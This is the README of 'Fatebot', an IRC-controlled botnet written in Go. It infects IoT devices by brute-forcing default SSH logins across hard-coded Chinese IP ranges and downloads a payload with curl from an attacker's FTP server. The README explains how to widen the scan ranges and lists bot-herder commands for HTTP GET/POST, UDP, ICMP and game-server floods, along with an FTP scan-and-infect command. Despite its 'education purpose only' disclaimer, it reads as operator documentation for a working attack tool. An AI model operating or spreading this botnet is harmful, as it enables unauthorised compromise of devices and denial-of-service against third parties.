 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.3.1
This is my first IRC bot for launch ddos attack, Mainly of scan target are IoT device that run linux and open default SSH port, This bot is write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Scan on range of CHN network. You can add more or change it, if you want.)</strong>
and login by Brute-force attack. This botnet use "curl" to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range, And comment a function of running session.(That's why bot is not join The server.)</strong>
<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_anme = "224.12" //224.12.0.0 - 224.255.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
		or
		case var_name:
				return ManageIP_range(ipRange, "")

(3) Then go to The "SSH_Conn" function, And add your constant ip range to The array name "NetArr".

		NetArr := []string{
			chpn1, chpn2, chpn3, chpn4, chpn5, cgpn1, cgpn2, cgpn3,
			cgpn4, cgpn5, cgpn6, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postfloodtraffic.png" alt="http post flood, dos example">

# Build payload
<img src="assets/buildpayload.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to delete when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder not input The size or Put The over size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Kick bot out of The server.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
